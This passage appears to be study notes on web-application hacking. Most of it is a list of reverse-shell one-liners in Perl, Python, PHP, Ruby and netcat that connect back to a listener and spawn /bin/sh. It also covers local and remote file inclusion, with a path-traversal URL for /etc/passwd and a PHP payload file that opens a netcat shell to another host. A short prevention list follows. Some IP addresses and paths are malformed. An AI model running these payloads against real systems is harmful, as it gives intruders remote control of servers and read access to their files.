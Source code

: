         PERL
        perl -e 'use Socket;$i="10.20.14";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

        Python
        python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

        PHP
        php -r '$sock=fsockopen("10.20.14",8080);exec("/bin/sh -i <&3 >&3 2>&3");'

        Ruby
        ruby -rsocket -e'f=TCPSocket.open("10.20.14",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

        Netcat
        nc -e /bin/sh 10.20.14 8080

### File Inclusion Vulnerabilities

#### Local File Inclusion Vulnerabilities

* Allows an attacker to read ANY file on the same server
* Access files outside www directory
* ex: http://www.example.com/../../../../etc/passwd

#### Remote File Inclusion Vulnerabilities

* possible if allow_url / allow_url_include options are enabled in PHP (nano /etc/php5/cgi/php.ini)
* Similar to local file inclusion but allows an attacker to read ANY file from ANY server
* Execute php files from other servers on the current server
* Store php files on other servers as .txt

* Discovery & Exploitation: http://www.example.com/?page=http://10.0.2.15/reverse.txt

        //reverse.txt FILE EXAMPLE

        <?php
            passthru('nc -e /bin.sh 10.0.2.15 8080');
        ?>

### Preventing File Upload, Code Execution and File Inclusions Vulnerabilities

* File Upload Vulnerabilities: only allow safe files to be uploaded (don't only check the extension!)
* Code Execution Vulnerabilities: don't use dangerous functions (passthru, ...), filter user input before execution
* File Inclusion Vulnerabilities:
    * Local: disable allow_url_fopen & allow_url_include (php.ini)
    * Remote: use static file inclusion => don't use include($_GET('page'));

## SQL Injection Vulnerabilities
